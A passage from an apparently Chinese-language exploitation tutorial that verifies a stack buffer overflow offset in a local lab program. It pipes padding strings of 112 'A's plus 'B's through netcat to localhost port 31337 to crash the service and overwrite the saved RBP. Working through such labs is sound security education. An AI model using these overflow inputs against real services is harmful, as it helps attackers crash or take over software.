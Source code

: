 #### 3.4 验证

112个A 程序正常运行

```plain
echo $(python2 -c 'print "A" * 112') | nc localhost 31337
```

[![](assets/1703831476-369d1018607a4d7947af1e20edc41773.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227224812-f53dd672-a4c6-1.png)

112个A + 1个B。程序崩溃

```plain
echo $(python2 -c 'print "A" * 112 + "B" * 1') | nc localhost 31337
```

[![](assets/1703831476-1a3df7f23740cc9f79cdec94c8e9c597.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227224818-f9377580-a4c6-1.png)

112个A+8个B。填充满RBP需要+8个字符

```plain
echo $(python2 -c 'print "A" * 112 + "B" * 8') | nc localhost 31337
```

[![](assets/1703831476-5c02b3922893a6354c0c2f46aaffbf4c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227224825-fd6db182-a4c6-1.png)
